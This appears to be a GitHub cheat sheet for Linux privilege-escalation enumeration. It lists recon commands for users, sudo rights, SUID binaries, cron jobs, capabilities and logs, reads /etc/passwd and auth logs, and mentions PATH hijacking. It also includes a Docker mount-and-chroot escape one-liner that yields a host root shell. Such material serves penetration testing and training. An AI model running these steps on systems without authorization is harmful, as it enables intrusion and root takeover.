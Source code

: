 > For a deeper understanding and detailed techniques on each topic, review the expanded content available in the **Techniques** directory.
## Reconnaissance
Gather basic system and user information to understand the environment.

```bash
whoami                 # Current user
id                     # User and group details
hostname               # Hostname
uname -a               # Kernel and system architecture info
cat /etc/os-release    # OS version and details
```

## Environment Variables and PATH Hijacking
Review environment variables, especially PATH, for opportunities to inject malicious binaries.

```bash
env                                 # List all environment variables
echo $PATH                          # Check PATH variable
```

## User and Group Enumeration
Check user privileges and group memberships.
```bash
groups                 # Groups current user belongs to
getent group sudo      # Users in sudo group
cat /etc/passwd        # List of system users
```

## Sudo Permissions
Identify commands you can run with sudo and if a password is required.
```bash
sudo -l                # List allowed sudo commands for the current user
```

## File Permissions and SUID Binaries
Look for files and binaries with special permissions that could be exploited.

```bash
find / -perm -4000 -type f 2>/dev/null   # Find all SUID binaries
find / -writable -type d 2>/dev/null     # Writable directories for current user
```

## Scheduled Tasks (Cron Jobs)
Check for cron jobs running as root or other privileged users.

```bash
cat /etc/crontab
ls -la /etc/cron.*
crontab -l                             # Current user's cron jobs
```

## Network Information
Identify active network connections and services.

```bash
netstat -tuln                         # Open ports and listening services
ss -tuln                             # Alternative to netstat
ps aux                              # Running processes
```

## Linux Capabilities
Look for binaries with special Linux capabilities set.

```bash
getcap -r / 2>/dev/null           # Find files with capabilities
```

## Log Files
Review system logs for sensitive information or clues.

```bash
cat /var/log/auth.log             # Authentication logs (Debian-based)
cat /var/log/secure               # Authentication logs (RedHat-based)
cat /var/log/syslog              # System logs
```


## Docker and Containers
If Docker is installed, sometimes users in docker group can escalate privileges.

```bash
groups | grep docker
docker ps
docker run -v /:/host -it alpine chroot /host sh  # Example of Docker escape (if permitted)
```

## Automated Enumeration Tools

**linpeas:** A comprehensive script that automates the enumeration process to identify potential privilege escalation vectors.

**pspy:** Tool to monitor processes and cron jobs without needing root privileges, useful to detect privilege escalation opportunities in real time.

```bash
./linpeas.sh
./pspy64
```


